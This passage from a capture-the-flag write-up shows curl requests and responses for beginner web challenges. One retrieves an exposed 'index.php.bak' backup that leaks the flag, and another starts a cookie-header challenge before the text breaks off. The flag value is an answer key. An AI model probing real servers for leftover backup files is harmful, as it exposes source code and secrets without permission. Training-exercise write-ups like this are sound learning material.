 ```shell
$ curl "http://61.147.171.105:56320/index.php.bak"
<html>
<head>
    <meta charset="UTF-8">
    <title>备份文件</title>
    <link href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" rel="stylesheet" />
    <style>
        body{
            margin-left:auto;
            margin-right:auto;
            margin-TOP:200PX;
            width:20em;
        }
    </style>
</head>
<body>
<h3>你知道index.php的备份文件名吗？</h3>
<?php
$flag="Cyberpeace{855A1C4B3401294CB6604CCC98BDE334}"
?>
</body>
</html>

```

flag: `Cyberpeace{855A1C4B3401294CB6604CCC98BDE334}`

### cookie

```shell
$ curl -i "http://61.147.171.105:60691/"
HTTP/1.1 200 OK
Date: Fri, 27 Dec 2024 05:44:50 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.26
Set-Cookie: look-here=cookie.php
Vary: Accept-Encoding
Content-Length: 417
Content-Type: text/html

<html>
<head>
    <meta charset="UTF-8">
    <title>Cookie</title>
    <link href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" rel="stylesheet" />
    <style>
        body{
            margin-left:auto;
            margin-right:auto;
            margin-TOP:200PX;
            width:20em;
        }
    </style>
</head>
<body>
<h3>你知道什么是cookie吗？</h3>
</body>
</html>

$ curl -i "http://61.147.171.105:60691/cookie.php"
HTTP/1.1 200 OK
Date: Fri, 27 Dec 2024 05:45:01 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.26
```